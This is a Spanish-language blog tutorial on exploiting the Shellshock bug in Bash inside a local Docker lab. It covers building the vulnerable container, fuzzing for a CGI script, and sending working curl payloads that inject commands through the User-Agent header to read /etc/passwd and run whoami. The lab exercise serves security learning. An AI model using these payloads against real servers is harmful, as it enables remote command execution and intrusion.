 ```yaml
---
layout: single
title:  Explotando la vulnerabilidad shellshock en un entorno controlado
excerpt: "En este post mostraré como crear un pequeño laboratorio a traves de docker sobre la vulnerabilidad de shellshock hasta ganar acceso al sistema"
date: 2021-05-09
classes: wide
header:
    teaser: /assets/images/shellshock/13.png
    teaser_home_page: true
categories:
    - vulnerability
tags:
    - linux
    - docker
---
```



<p align="center">
<img src="/assets/images/shellshock/13.png">
</p>

- [Requisitos del laboratorio](#requisitos-del-laboratorio)
- [Laboratorio](#laboratorio)
- [Construyendo el Dockerfile](#construyendo-el-dockerfile)
- [Obteniendo una shell](#obteniendo-una-shell)

## Requisitos del laboratorio
- Maquina virtual Parrot OS
- Docker 
- Git 

## Shellshock ¿Que es?
Shellshock , también conocido como Bashdoor , es una familia de errores de seguridad de la familia Bash Unix.
Esta vulnerabilidad existe desde hace un tiempo, pero debido a la ubicuidad de las máquinas Unix conectadas a la web, Shellshock sigue siendo una amenaza muy real, especialmente para los sistemas sin parches.
Bash es un intérprete o intérprete que permite ejecutar comandos en un sistema, normalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix y, como tal, se puede encontrar en Linux, macOS y otras variantes de Unix. Esta es la razón por la que Shellshock es tan severo: más de la mitad de los servidores web en Internet ejecutan Unix.

----

# Laboratorio
Para replicar esta vulnerabilidad en nuestro sistema es necesario descargar este [proyecto](https://github.com/Zenithar/docker-shellshockable) el cual viene un archivo Dockerfile que construiremos con docker para hacer nuestra práctica
```
git clone https://github.com/Zenithar/docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/1.PNG">
  </p>

## Contruyendo el Dockerfile
Teniendo ya el repositorio en nuestra maquina aplicaremos el siguiente comando como el usuario root.
```bash
sudo docker build -t shellshock docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/2.PNG">
  </p>

Listamos las todas las imagenes para verificar la construccion de la imagen shellshock.  
Y posteriormente corremos el contenedor
<p align="center">
<img src="/assets/images/shellshock/3.PNG">
  </p>

----

Con el comando ```ifconfig docker0``` comprobaremos en que segmento de red se encuentra el contenedor.
<p align="center">
<img src="/assets/images/shellshock/4.PNG">
  </p>


Se puede observar que la ip en el que se esta ejecutando el servicio web es la 172.17.0.2
<p align="center">
<img src="/assets/images/shellshock/5.PNG">
  </p>


Si nos dirigimos al navegador nos muestra la pagina por defecto de apache.
<p align="center">
<img src="/assets/images/shellshock/6.PNG">
  </p>


Aplicaremos fuzzing a la pagina web para ver que con cosas interesantes nos podemos topar para ello haré uso de la utilidad de dirsearch que lo puedes descargar de [aquí](https://github.com/maurosoria/dirsearch).

<p align="center">
<img src="/assets/images/shellshock/7.PNG">
  </p>

Si verificamos este directopio en la web nos manda un mensaje de que no tenemos acceso, sin embargo sabemos que existe asi que volveremos a aplicar fuzzing a esta ruta nueva.
<p align="center">
<img src="/assets/images/shellshock/8.PNG">
  </p>

Ha sido posible encontrar la ruta **/cgi-bin/sockme.cgi**.
<p align="center">
<img src="/assets/images/shellshock/9.PNG">
  </p>

El siguiente comando de POC es posible obtener ejecución remota de comandos dentro del servidor.
```bash
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"

```
<p align="center">
<img src="/assets/images/shellshock/10.PNG">
  </p>

----

## Obteniendo una shell
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
<p align="center">
<img src="/assets/images/shellshock/11.PNG">
  </p>






